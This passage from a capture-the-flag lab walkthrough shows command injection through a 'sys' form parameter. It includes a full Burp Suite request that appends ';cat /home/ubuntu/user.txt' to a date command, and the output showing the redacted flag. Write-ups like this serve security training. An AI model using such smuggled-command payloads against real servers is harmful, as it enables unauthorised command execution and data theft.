

### Identifying the Injection Point

Checking the Network tab while that request fired showed the form data being sent as a `sys` parameter, carrying the literal shell command used to produce the time.



That `sys` value being a raw shell command, passed straight from the client, I thought giving command injection a go, so I intercepted the request in Burp Suite to tamper with it.



### Exploiting the Command Injection

I sent the request to Repeater and appended a second command to the `sys` parameter, separated by a semicolon, to read the flag file directly.



```http
POST /dashboard.php?skin=/home/ubuntu/user.txt HTTP/1.1
Host: 10.114.177.123
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,ja;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://10.114.177.123
Sec-GPC: 1
Connection: keep-alive
Referer: http://10.114.177.123/dashboard.php?skin=/home/ubuntu/user.txt
Cookie: isITUser=b326b5062b2f0e69046810717534cb09; PHPSESSID=hqern3tpbnd0j4rufpr9m6vb0k
Upgrade-Insecure-Requests: 1
Priority: u=0, i

sys=date+%2B%22%25H%3A%25M%3A%25S%22;cat+/home/ubuntu/user.txt
```

Sending that request returned the time as usual, with the contents of `user.txt` printed directly beneath it in the same output block.



```
19:12:00
—REDACTED—
```

**Answer:** `—REDACTED—`